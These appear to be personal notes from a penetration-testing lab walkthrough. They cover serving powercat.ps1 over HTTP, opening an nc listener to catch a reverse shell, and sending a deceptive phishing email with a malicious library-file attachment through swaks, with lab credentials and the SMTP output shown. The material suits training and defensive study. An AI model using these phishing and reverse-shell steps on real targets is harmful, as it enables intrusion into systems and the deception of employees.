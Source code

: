 Then serve PowerCat via #pythonhttpserver 

Copy `powercat.ps1` to `/home/kali/beyond` and serve it on port 8000.

`cp ~/Tools/powercat.ps1 .`

```
kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Start nc listener in new terminal to catch incoming powercat reverse shell
```
kali@kali:~/beyond$ nc -nvlp 4444      
listening on [any] 4444 ...
```

With Netcat running, all services and files are prepared. Now, let's create the email.

#### Create phishing email 
Use SMTP test tool [swaks](http://www.jetmore.org/john/code/swaks/)

Create `body.txt` of email in `/home/kali/beyond`
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

Construct #swaks command to send the email 

Add malicious windows library file as attachment - server IP is MAILSRV1
```hlt:1,2,3
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.50.242:25...
=== Connected to 192.168.50.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kali
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 36 lines sent
<-  250 Queued (1.088 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```